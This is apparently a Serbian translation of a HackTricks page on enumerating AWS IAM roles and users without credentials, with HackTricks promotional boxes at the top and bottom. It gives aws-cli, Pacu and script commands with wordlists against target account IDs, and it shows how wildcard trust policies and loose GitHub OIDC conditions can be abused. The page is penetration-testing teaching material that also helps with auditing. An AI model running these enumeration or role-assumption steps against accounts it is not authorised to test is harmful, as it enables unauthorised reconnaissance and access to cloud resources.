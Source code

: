 # AWS - IAM & STS Neovlašćeno nabrajanje

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodiču PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Nabrojavanje uloga i korisničkih imena u nalogu

### ~~Pretpostavljeno Brute-Force Uloga~~

{% hint style="danger" %}
**Ova tehnika više ne funkcioniše** jer bez obzira da li uloga postoji ili ne uvek dobijate ovu grešku:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Možete **testirati ovo pokretanjem**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Pokušaj **pretpostavljanja uloge bez neophodnih dozvola** pokreće AWS poruku o grešci. Na primer, ako niste ovlašćeni, AWS može vratiti:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Ova poruka potvrđuje postojanje uloge, ali ukazuje da njen politika preuzimanja uloge ne dozvoljava vaše pretpostavljanje. Nasuprot tome, pokušaj pretpostavljanja nepostojeće uloge dovodi do drugačije greške:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Interesantno je da je ovaj metod **razlikovanja između postojećih i nepostojećih uloga** primenljiv čak i preko različitih AWS naloga. Sa važećim AWS ID-jem naloga i ciljnom listom reči, moguće je enumerisati uloge prisutne u nalogu bez suočavanja sa bilo kakvim inherentnim ograničenjima.

Možete koristiti ovaj [skript za enumeraciju potencijalnih principala](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) zloupotrebljavajući ovaj problem.

### Povereničke politike: Brute-Force Cross Account uloge i korisnike

Konfigurisanje ili ažuriranje **povereničke politike IAM uloge podrazumeva definisanje koje AWS resurse ili usluge su dozvoljene da preuzmu tu ulogu** i dobiju privremene akreditive. Ako navedeni resurs u politici **postoji**, poverenička politika se sačuva **uspešno**. Međutim, ako resurs **ne postoji**, generiše se **greška**, koja ukazuje da je pružen nevažeći princip.

{% hint style="warning" %}
Imajte na umu da u tom resursu možete navesti prekograničnu ulogu ili korisnika:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Ovo je primer politike:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### Grafički korisnički interfejs

To je **greška** koju ćete pronaći ako koristite **ulogu koja ne postoji**. Ako uloga **postoji**, politika će biti **sačuvana** bez grešaka. (Greška je za ažuriranje, ali takođe radi prilikom kreiranja)

![](<../../../.gitbook/assets/image (153).png>)

#### Komandna linija
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Možete automatizovati ovaj proces sa [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Naša upotreba [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* U primeru, uloga `admin` je **uloga u vašem nalogu koju će pacu impersonirati** kako bi kreirao politike koje su mu potrebne za enumeraciju

### Privesc

U slučaju da je uloga loše konfigurisana i dozvoljava bilo kome da je preuzme:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Napadač bi to mogao samo pretpostaviti.

## Federacija treće strane OIDC

Zamislite da uspete da pročitate **Github Actions workflow** koji pristupa **ulogi** unutar **AWS**-a.\
Ovo poverenje može omogućiti pristup ulozi sa sledećom **politikom poverenja**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Ova politika poverenja može biti ispravna, ali **nedostatak dodatnih uslova** trebao bi vas učiniti sumnjičavim.\
To je zato što prethodnu ulogu može preuzeti **BILO KO iz Github akcija**! Trebali biste specificirati i druge stvari u uslovima kao što su naziv org, naziv repozitorijuma, okruženje, grana...

Još jedna potencijalna greška u konfiguraciji je **dodavanje uslova** poput sledećeg:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Napomena da **zvezdica** (\*) pre **dvotačke** (:). Možete kreirati org kao što je **org\_name1** i **pretpostaviti ulogu** iz Github akcije.

## Reference

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
